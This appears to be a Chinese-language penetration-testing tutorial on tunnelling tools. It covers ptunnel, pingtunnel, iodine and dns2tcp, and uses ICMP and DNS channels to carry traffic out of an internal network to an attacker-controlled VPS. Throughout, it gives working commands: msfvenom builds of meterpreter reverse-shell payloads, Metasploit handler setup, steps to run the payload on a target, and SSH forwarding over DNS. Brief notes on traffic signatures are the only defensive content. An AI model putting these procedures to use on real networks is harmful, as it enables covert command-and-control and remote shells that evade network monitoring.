




# 内网隧道工具使用

## 1. ICMP隧道

### 1.1 ptunnel

> [Thorsten Alteholz / ptunnel · GitLab (debian.org)](https://salsa.debian.org/alteholz/ptunnel)

主要参数（ptunnel -h可以查看详细信息）

```
-x ：指定ICMP隧道连接的验证密码
-lp：指定要监听的本地TCP端口
-da：指定要转发的目标机器的IP地址
-dp：指定要转发的目标机器的TCP端口
-p：指定ICMP隧道连一段的IP地址
```


#### 上线msf

攻击机：开启ptunnel的server，将client端发过来的icmp流量解析成tcp的

靶机：开启ptunnel的client，监听本地的9999端口，ptunnel的client将9999端口接到的流量封装成icmp，发送到server端。

**1）攻击机操作：**

新生成msf马，然后放在靶机上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=9999 -f elf -o exp
```

攻击机开启msf监听，此处监听的4444端口，后面会用到


攻击机开启ptunnel的server  kali自带的，所以直接执行就可以

```
ptunnel 
```


**2）靶机操作：**

靶机端执行client

```
./ptunnel -p 100.1.1.169 -lp 9999 -da 100.1.1.169 -dp 4444

# -p   server端的IP
# -lp  本地监听的端口（只要是这个端口接到的tcp流量，全部封装成icmp,发送到server端）
# -da -dp 告诉server端，解析后的流量转发到哪个ip和端口，这里填的是msf监听的IP和端口
```

运行可能报错

解决办法：

```
sudo yum install libpcap-devel
# 安装完可能版本不对
cd /usr/lib64/
ln -s libpcap.so.1.5.3 libpcap.so.0.8
```


靶机正常执行后效果如下：



然后靶机执行msf马，server端会收到消息，从192.168.1.189接到了icmp流量，解析出来后发现需要转发到100.1.1.169的4444端口



上线成功


上面的session看起来是攻击机的IP，其实ptunnel的server端转发过来的，只是ptunnel的server和msf放在同一个攻击机上而已。

#### 流量特征

先发送1个长度为70的request，然后又2个长度70的reply(内容固定)，接着就一直发送长度为1096的reply包，每秒为一个周期（可以对比下面两图的时间差）,流量包： [ptunnel_2.pcap](img\Tunnel\ptunnel_2.pcap)  [ptunnel_1.pcap](img\Tunnel\ptunnel_1.pcap) 


### 1.2 pingtunnel

#### 转发tcp流量

简单的通过icmp隧道转发tcp流量，攻击机kali-192.168.73.98

```
./pingtunnel -type server -key 123456
```


靶机Win-192.168.1.8

```
./pingtunnel.exe -type client -l :8888 -s 192.168.73.98 -t 192.168.73.98:7777 -tcp 1 -key 123456
```


这样通道就建立起来，192.168.1.8的8888端口收到的tcp流量，都会被转为icmp流量发给server，然后在server端解析成tcp（解析到7777端口）

假如这样把tcp流量发给192.168.1.8的8888


server端可以收到并解析出来


#### 流量特征

icmp包长度突然变化，就是有tcp流量要发


以及突然流量包数量变多


## 2. DNS隧道

### 2.1 iodine

> 以下的服务器和域名均来自腾讯云
>
> 服务器：https://cloud.tencent.com/product/cvm?from=10680
>
> 域名解析：https://cloud.tencent.com/product/cns?from=10680

iodine是基于C语言开发的，分为服务端和客户端。iodine支持转发模式和中继模式。其原理是：通过TAP虚拟网卡，在服务端建立一个局域网，在客户端也通过TAP建立一个虚拟网卡，两者通过DNS隧道连接，处于同一个局域网(可以通过ping命令通信)。在客户端和服务器之间建立连接后，客户机上会多出一块名为dns0的虚拟网卡。

与同类工具相比，iodine具有如下特点：

> 参考https://cloud.tencent.com/developer/article/1937092

- 不会对下行数据进行编码
- 支持多平台(Linux、Windows、MacOS)
- 支持16个并发连接
- 支持强密码机制
- 支持同网段隧道IP地质(不同于服务器一客户端网段)
- 支持多种DNS记录类型
- 提供了丰富的隧道质量检测措施

#### 1. 部署域名解析

> https://console.dnspod.cn/

首先，用一台公网的Linux系统的VPS作为C&C服务器，并准备好一个可以配置的域名(这里我们假设是`dnslog1.site`)。然后配置域名的记录，如下：


创建记录A，将自己的域名` dns.dnslog1.site `解析到VPS服务器地址。然后创建NS记录，将 `dns2tcp.dnslog1.site `指向 `dns.dnslog1.site `。

- 第一条A类解析是在告诉域名系统，`dns.dnslog1.site`的IP地址是 `xx.xx.xx.xx` 。
- 第二条NS解析是在告诉域名系统，想要知道`dns2tcp.dnslog1.site`的IP地址，就去问`dns.dnslog1.site` 。

**验证域名解析设置是否成功**

在随便一台电脑上ping域名`dns.dnslog1.site`，若能ping通，且显示的IP地址是我们配置的VPS的地址，说明第一条A类解析设置成功并已生效。

然后在我们的VPS上执行以下命令监听UDP 53端口

```javascript
tcpdump -n -i eth0 udp dst port 53
```

在任意一台机器上执行  `nslookup dns2tcp.dnslog1.site `命令，如果在我们的VPS监听的端口有查询信息，说明第二条记录设置成功。

#### 2. 安装并启动服务端

提前检查VPS服务器防火墙的53端口是否打开：


这里用的服务端是Centos7系统，可以执行安装命令：

```
yum -y install iodine 
```

如果是Windows系统，可以安装编译好的对应版本的iodine。

执行以下命令启动服务端：

```
iodined -f -c -P root@123456 172.16.10.1 dns2tcp.dnslog1.site -DD
    -f：在前台运行
    -c：禁止检查所有传入请求的客户端IP地址
    -P：指定密码
    -D：指定调试级别。-DD指第二级，D的数量随等级增加
    这里的172.16.10.1是自定义的局域网虚拟IP地址
```


服务端启动成功后，VPS上多了一块dns0的网卡，ip为我们设置的172.16.10.1


#### 3. 安装并启动客户端

**Windows系统**

如果是Windows系统，直接执行下面命令启动客户端，但是启动的过程中，会遇到杀毒软件的报毒，并且需要管理员权限执行命令才可以启动。

```
iodine.exe -f -P root@123456 dns2tcp.dnslog1.site
```

**Linux系统**

如果是Linux系统，先安装iodine。上传iodlie客户端到目标主机，解压，进入目录安装

```
cd iodine-0.7.0/
make && make install
```

kali默认安装了iodine，执行下面命令连接服务端(需要root权限)，如图连接成功。

```
iodine -f -P root@123456 dns2tcp.dnslog1.site
```



连接成功后，客户端上新建了一个dns0的网卡，IP地址为172.16.10.2


然后ping服务端地址


#### 4. 使用DNS隧道

客户端和服务端连接成功后，由于客户端和服务端处在一个逻辑的局域网中，所以可以直接通。

**服务端SSH连接客户端**


**客户端SSH连接服务端**


------


### 2.2 dns2tcp

dns2tcp 是一个利用DNS隧道转发TCP连接的工具，使用C语言开发。

#### 1. 部署域名解析


**验证域名解析设置是否成功**，步骤同上。

#### 2. 安装并启动服务端

工具下载地址：https://github.com/alex-sector/dns2tcp

提前检查VPS服务器防火墙的53端口是否打开，将下载的工具上传到VPS，依次执行

```
unzip dns2tcp-master.zip
cd dns2tcp-master
./configure
make
make install
```

准备配置文件（腾讯云服务器不给实际网卡分配公网IP，所以要监听0.0.0.0）：

```
vim /etc/dns2tcpd.conf

listen = 0.0.0.0
port = 53
user = nobody
chroot = /var/empty/dns2tcp/
domain = a.dnslog1.site
resources = ssh:127.0.0.1:22,smtp:127.0.0.1:25,http:127.0.0.1:8080
```

完成后运行服务端：

```
dns2tcpd  -F -d 1 -f /etc/dns2tcpd.conf
```


#### 3. 安装并启动客户端

kali默认安装了dns2tcp，测试连接：

```
dns2tcpc -z a.dnslog1.site <服务器IP>
```

其中<服务器IP>可选，服务端所在IP（DNS服务器IP）。不写将使用中继模式，否则使用直连模式，如果提示：

```
Available connection（s）:
        ssh
        smtp
        http
```

表示连接可用！

#### 4. 使用DNS隧道

```
dns2tcpc -l 4444 -r ssh  -z a.dnslog1.site <服务器IP> -c -d 3
```

-c表示启用数据压缩；-d表示启动调试，3为调试等级；-l表示监听本地端口，4444为端口名；-r为使用服务端上的哪个资源，ssh为资源名；-z后为前面配置的NS记录的域名。


然后ssh连接本地4444端口就相当于连接服务端：

```
ssh root@127.0.0.1 -p 4444
```


------

**若需要将内网msf流量转发到外网：**

参考：https://blog.csdn.net/redwand/article/details/112727816

通过dns隧道嵌套ssh隧道实现本地端口转发：

```
ssh -CfNg -L 6666:<服务器IP>:6666 root@127.0.0.1 -p 4444
```


生成木马，监听在客户端192.168.13.188的6666端口上

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.13.188 LPORT=6666 -f elf > shell.elf
```

服务器打开msf，监听6666端口：

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > run
```

在内网的主机(这里选择另一台虚拟机192.168.13.100)运行shell.elf

```
chmod 777 shell.elf 
./shell.elf 
```

成功得到上线meterpreter shell：


